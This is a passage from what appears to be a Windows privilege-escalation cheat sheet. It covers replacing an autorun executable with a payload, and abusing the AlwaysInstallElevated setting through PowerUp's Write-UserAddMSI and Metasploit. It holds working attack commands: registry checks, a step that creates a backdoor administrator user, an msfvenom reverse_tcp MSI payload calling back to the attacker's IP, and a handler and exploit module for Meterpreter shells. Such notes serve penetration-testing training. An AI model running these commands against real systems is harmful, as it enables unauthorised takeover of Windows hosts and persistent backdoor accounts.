 in msfconsole:
```bash
use multi/handler > set options
```

Send the program.exe to windows target machine and replace the windows file **/Program Files/Autorun Program/program.exe** by our program.exe

- Now we can disconnect off the machine and log as administrator
- the autorun program will pop up. 
- When u hit RUN, we get the meterpreter shell with root access




## AlwaysInstallElevated
This is a configuration issue, when we can run packages with admin privileges, because **install elevated** is set in the register
 
### Overview
To test if this vulnerability is available:
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
the value of 'AlwaysInstallElevated' must be 1
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
again the value must be 1
```

### Escalation
```powershell
# We can see the AbuseFunction in the PowerUp > Invoke-AllChecks
# example: AbuseFunction : Write-UserAddMSI

In Powershell:
Write-UserAddMSI
```

> A file UserAdd is gonna appear in the same directory of the PowerUp
We will run this file. A window will pop up and we will set a backdoor user to have administrator access

### with Meterpreter
```bash
use exploit/multi/handler
set options

msfvenom -p windows/meterpreter/reverse_tcp lhost=<our ip> -f msi -o setup.msi
# send to the windows target machine.
# make sure u have a listener running & run the setup.msi
```

### Another method
with meterpreter:
```bash
use exploit/windows/local/always_install_elevated
set the session
```
